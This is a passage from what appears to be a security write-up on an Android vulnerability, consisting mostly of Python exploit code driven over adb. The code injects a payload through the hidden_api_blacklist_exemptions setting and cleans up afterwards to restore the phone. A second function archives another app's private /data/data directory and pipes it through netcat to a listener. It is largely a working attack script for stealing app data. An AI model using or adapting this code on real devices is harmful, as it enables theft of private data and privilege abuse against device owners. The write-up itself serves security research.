 ```python
{% highlight python linenos %}
def exploit(payload):
    # Generate and upload payload
    with open("payload.txt", 'w') as f:
        f.write(payload)
    send_adb_command("adb push payload.txt /data/local/tmp")

    # close settings app if open
    send_adb_command("adb shell am force-stop com.android.settings")

    # Starting an interactive shell, is how it works.
    p = subprocess.Popen("adb shell",shell=True,stdout=subprocess.PIPE,stderr=subprocess.PIPE, stdin=subprocess.PIPE)
    (child_stdin, child_stdout, child_stderr) = (p.stdin, p.stdout, p.stderr)

    # Setting hidden_api_blacklist_exemptions with the payload
    p.stdin.write(str.encode("settings put global hidden_api_blacklist_exemptions \"$(cat /data/local/tmp/payload.txt)\""))

    # close process pipes
    p.stdin.close()
    p.wait()

    # post exploitation stuff so the phone "backs to normal.
    send_adb_command("adb shell settings put global hidden_api_blacklist_exemptions null")
    send_adb_command("adb shell am start -a android.settings.SETTINGS")
		
    # Delete payload from phone.
    send_adb_command("adb shell rm /data/local/tmp/payload.txt")
{% endhighlight %}
```

### Extraction

Remember that extracting the directory has two parts: the first consists of making _netcat_ listen on a port and redirect what arrives to a file. The second is triggering the vulnerability with the _payload_ that contains the command to package the entire application directory and send it through _netcat_.

Since the listening part requires _waiting_ for the connection to be established, we need to control that process and not close it before it completes its function. Additionally, we will delay the connection of the _netcat_ command in the _payload_ so that it waits three seconds before opening it, giving the listening process time to be ready.

Our solution looks like this:
```python
{% highlight python linenos %}
def extract_app_dir(app):
    dir_to_extract = f"/data/data/{app}/"
    print(f"-> Extract {dir_to_extract} to {app}.tar")
    # tar the contents of the directory and pipe to netcat connection,
    # wait 3 seconds before connecting giving time for the server to come up
    command = f"tar --create --file=- {dir_to_extract} | nc -w 3 localhost 31337"
    payload = make_payload(app, command)
    # launch listen subrprocess with the server
    p = subprocess.Popen(f"adb shell nc -l -p 31337 > {app}.tar",shell=True)
    # exploit!
    exploit(payload)
    # wait for the listen process to end
    p.wait()
    print(f"-> Done extracting. Check {app}.tar")
{% endhighlight %}
```
